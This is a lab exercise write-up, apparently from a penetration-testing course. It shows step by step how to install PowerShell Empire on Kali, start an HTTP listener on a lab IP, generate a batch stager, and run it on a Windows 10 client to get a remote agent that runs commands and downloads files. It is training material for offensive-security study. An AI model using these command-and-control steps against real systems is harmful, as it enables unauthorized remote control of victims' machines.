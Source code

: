 ### 23.1.3.1 Exercises
#### 1. Install and start PowerShell Empire on your Kali system.

The official GitHub for this is no longer maintained but a maintained fork is available at https://github.com/BC-SECURITY/Empire.git

1. Clone the repository with git in the /opt/ directory

   ```bash
   cd /opt
   sudo git clone https://github.com/BC-SECURITY/Empire.git
   ```

2. Run the setup script:

   ```bash
   cd /opt/Empire/setup
   sudo ./install.sh
   ```

   Note:  This prompted for a server negotiation password.  I just pressed enter to generate a random password since this is a stand-alone environment.

3. Run PowerShell Empire.  You MUST run it from the Empire directory so it can locate the Database

   ```bash
   cd /opt/Empire/
   sudo ./empire
   ```

   ![image-20200801125108816](.23.1.3.1.assets/image-20200801125108816.png)

#### 2. Create a PowerShell Empire listener on your Kali machine and execute a stager on your Windows 10 client.

1. Began with setting up a listener context

   ```bash
   listeners
   ```

2. Chose a listener to use to enter a context for that particular listener module.  

   ```bash
   uselistener http
   ```

3. Setup options for the listener

   ```bash
   set Host 192.168.119.216
   set Port 8000
   ```

   ![image-20200801131216296](.23.1.3.1.assets/image-20200801131216296.png)

4. Started the listener

   ```bash
   execute
   ```

   ![image-20200801131237987](.23.1.3.1.assets/image-20200801131237987.png)

5. After setting up a listener, returned to the previous context menu

   ```bash
   back
   ```

6. Chose a stager to use:

   ```bash
   usestager windows/launcher_bat
   ```

7. Assigned the listener that was just created to this stager and executed to produce the stager batch file.

   ```bash
   set Listener http
   execute
   ```

   ![image-20200801131340150](.23.1.3.1.assets/image-20200801131340150.png)
   
8. Transferred the stager to Windows 10 and ran it to get a connection to the listener:
   ![image-20200801142732403](.23.1.3.1.assets/image-20200801142732403.png)
   ![image-20200801142922993](.23.1.3.1.assets/image-20200801142922993.png)

#### 3. Experiment with the PowerShell Empire agent and its basic functionality

- SysInfo
  ![image-20200801143604924](.23.1.3.1.assets/image-20200801143604924.png)
- Spawning a new agent (Mr. Smith)
  ![image-20200801143419509](.23.1.3.1.assets/image-20200801143419509.png)
- Run calc.exe using shell
  ![image-20200801143747484](.23.1.3.1.assets/image-20200801143747484.png)
- Download a file
  ![image-20200801143904695](.23.1.3.1.assets/image-20200801143904695.png)